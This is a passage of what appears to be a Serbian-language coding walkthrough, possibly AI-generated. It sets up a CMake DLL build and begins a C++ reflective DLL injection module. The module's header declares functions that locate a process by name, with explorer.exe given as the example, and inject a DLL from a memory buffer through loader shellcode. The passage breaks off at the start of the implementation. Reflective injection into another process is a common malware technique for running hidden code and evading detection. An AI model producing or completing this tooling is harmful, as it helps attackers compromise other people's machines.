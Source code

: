 # Koristi add_library da kreiraš DLL
add_library(${CMAKE_PROJECT_NAME} SHARED ${SOURCES})

# Dodaj DllMain ulaznu tačku
target_sources(${CMAKE_PROJECT_NAME} PRIVATE src/dll_main.cpp)

# Definiši da gradimo DLL
set_target_properties(${CMAKE_PROJECT_NAME} PROPERTIES SUFFIX ".dll")
Trebaće nam i novi fajl dll_main.cpp koji će služiti kao ulazna tačka kada se naš DLL učita u memoriju.
1. Fajl: src/injection/reflective_loader.h
Definišemo funkciju koja će obaviti ceo proces injekcije.
code
C++
#pragma once
#include <windows.h>

namespace ReflectiveLoader {

    /**
     * @brief Učitava DLL iz memorijskog bafera u memoriju udaljenog procesa.
     *        Ovo je centralna funkcija za reflective injection.
     * @param hProcess Handle na ciljni proces (npr. explorer.exe).
     * @param pDllBuffer Pokazivač na memorijski bafer koji sadrži naš DLL.
     * @return Vraća true ako je injekcija uspela, inače false.
     */
    bool Inject(HANDLE hProcess, LPVOID pDllBuffer);

    /**
     * @brief Pronalazi proces po imenu i ubacuje naš DLL u njega.
     * @param processName Ime ciljnog procesa (npr. "explorer.exe").
     * @param pDllBuffer Pokazivač na naš DLL u memoriji.
     * @return Vraća true ako je proces pronađen i injekcija uspela.
     */
    bool FindAndInject(const char* processName, LPVOID pDllBuffer);
}
2. Fajl: src/injection/reflective_loader.cpp
Ovo je srž tehnike. Kod je kompleksan jer ručno replicira ono što Windows loader radi, ali u memoriji drugog procesa.
code
C++
#include "reflective_loader.h"
#include <tlhelp32.h>

// Ovo je standardna, javno dostupna implementacija Reflective DLL Injection-a.
// Sastoji se od "loader" shellcode-a koji se ubacuje u ciljni proces
// i koji zatim pravilno mapira DLL u memoriju.

// Definicija za ReflectiveLoader funkciju unutar DLL-a
typedef HMODULE(WINAPI* fnReflectiveLoader)();
